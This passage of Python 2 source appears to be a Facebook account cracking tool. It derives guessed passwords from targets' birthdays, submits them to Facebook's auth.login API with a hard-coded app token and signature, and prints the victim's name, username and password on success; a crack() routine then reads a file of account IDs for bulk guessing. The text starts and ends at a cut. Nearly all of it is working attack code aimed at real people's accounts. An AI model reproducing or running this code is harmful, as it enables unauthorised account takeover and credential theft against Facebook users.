                                 if 'www.facebook.com' in y['error_msg']:
                                    print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                                    print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                    raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                                    menu_hack()
                                else:
                                    lahir = a['birthday']
                                    pz4 = lahir.replace('/', '')
                                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                    y = json.load(data)
                                    if 'access_token' in y:
                                        print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                        raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                                        menu_hack()
                                    else:
                                        if 'www.facebook.com' in y['error_msg']:
                                            print '\x1b[1;91m[+] \x1b[1;92mFounded.'
                                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m     : ' + a['name']
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                                            menu_hack()
                                        else:
                                            print '\x1b[1;91m[!] Sorry, opening password target failed :('
                                            print '\x1b[1;91m[!] Try other method.'
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
                                            menu_hack()
        except KeyError:
            print '\x1b[1;91m[!] Terget not found'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
            menu_hack()


def crack():
    global file
    global idlist
    global passw
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 52 * '\x1b[1;97m\xe2\x95\x90'
        idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')
        passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')
        try:
            file = open(idlist, 'r')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            for x in range(40):